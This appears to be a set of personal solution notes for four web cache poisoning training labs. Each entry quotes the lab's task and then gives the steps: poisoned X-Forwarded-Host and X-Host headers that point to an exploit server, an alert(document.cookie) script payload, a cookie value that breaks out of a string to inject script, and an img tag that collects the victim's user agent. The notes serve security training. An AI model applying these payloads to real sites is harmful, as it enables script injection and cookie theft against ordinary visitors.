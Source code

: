 ```
Lab: Web cache poisoning with an unkeyed header

PRACTITIONER

This lab is vulnerable to web cache poisoning because it handles input from an unkeyed header in an unsafe way.
An unsuspecting user regularly visits the site's home page.
To solve this lab, poison the cache with a response that executes alert(document.cookie) in the visitor's browser. 
```

X-Forwarded-Host: exploit-0af500bc03f1605e8088526401d600f4.exploit-server.net/exploit

File: /exploit/resources/js/tracking.js

Body: alert(document.cookie);

---
```
Lab: Web cache poisoning with an unkeyed cookie

PRACTITIONER

This lab is vulnerable to web cache poisoning because cookies aren't included in the cache key. An unsuspecting user regularly visits the site's home page. To solve this lab, poison the cache with a response that executes alert(1) in the visitor's browser. 
```
Run param miner, then update the header and add : 

Cookie: fehost=akzldka"-alert(1)-"test;

---
```
Lab: Web cache poisoning with multiple headers

PRACTITIONER

This lab contains a web cache poisoning vulnerability that is only exploitable when you use multiple headers to craft a malicious request. A user visits the home page roughly once a minute. To solve this lab, poison the cache with a response that executes alert(document.cookie) in the visitor's browser. 
```
Run param miner, X-Forwarded-Scheme detected

GET /resources/js/tracking.js

X-Forwarded-Host: exploit-0a7d008d040cac95809f6c3d01060031.exploit-server.net

X-Forwarded-Scheme: test

---

```
Lab: Targeted web cache poisoning using an unknown header

PRACTITIONER

This lab is vulnerable to web cache poisoning. A victim user will view any comments that you post. To solve this lab, you need to poison the cache with a response that executes alert(document.cookie) in the visitor's browser. However, you also need to make sure that the response is served to the specific subset of users to which the intended victim belongs.

```
* Run param miner, x-host header detected

* User-agent of the victim triggered with (comment section) : 

<img src="https://exploit-0a5a008c04375d26804d117001d9003b.exploit-server.net/exploit">

> user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36

 X-host: exploit-0ae700ad048a44c18279c8a901c90073.exploit-server.net

---
